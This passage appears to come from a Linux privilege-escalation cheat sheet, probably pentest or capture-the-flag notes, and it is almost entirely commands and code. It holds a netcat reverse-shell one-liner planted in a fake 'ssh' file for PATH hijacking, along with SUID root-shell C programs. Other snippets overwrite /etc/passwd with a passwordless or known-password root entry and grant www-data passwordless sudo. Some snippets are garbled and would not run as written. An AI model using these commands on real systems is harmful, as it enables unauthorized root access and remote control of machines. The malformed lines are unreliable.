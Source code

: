 ```
 set PATH="/tmp:/usr/local/bin:/usr/bin:/bin"
 echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.1 4444 >/tmp/f" >> /tmp/ssh
 chmod +x ssh
```

```
#Ippsec demoing $PATH PE
https://www.youtube.com/watch?v=3VxZNflJqsw
```

### Generating SUID C Shell for /bin/bash

```
int main() {
    setuid(0);
    system("/bin/bash -p");
}
```

Compile using `gcc -o <name> <filename.c>`

Without interactive shell

```
echo -e '#include <stdio.h>\n#include <sys/types.h>\n#include <unistd.h>\n\nint main(void){\n\tsetuid(0);\n\tsetgid(0);\n\tsystem("/bin/bash");\n}' > setuid.c
```

If /etc/passwd has incorrect permissions, you can root:

```
echo 'root::0:0:root:/root:/bin/bash' > /etc/passwd; su
or
echo "root:JblITMXA7I1hg:0:0:root:/root:/bin/bash" > /etc/passwd
then su using password rowbot
```

or

```
openssl passwd
#put in password, output is random sting
#pass this on the x part of root in /etc/passwd
su root using the password u set
```

Add user www-data to sudoers without password

```
chmod 'chmod 777 /etc/sudoers && echo "www-data ALL=NOPASSWD:ALL" >> /etc/sudoers && chmod 440 /etc/sudoers' > /tmp/update
```

If you can sudo chmod:

```
echo -e '#include <stdio.h>\n#include <sys/types.h>\n#include <unistd.h>\n\nint main(void){\n\tsetuid(0);\n\tsetgid(0);\n\tsystem("/bin/bash");\n}' > setuid.c $ sudo chown root:root /tmp/setuid; sudo chmod 4777 /tmp/setuid; /tmp/setuid
```
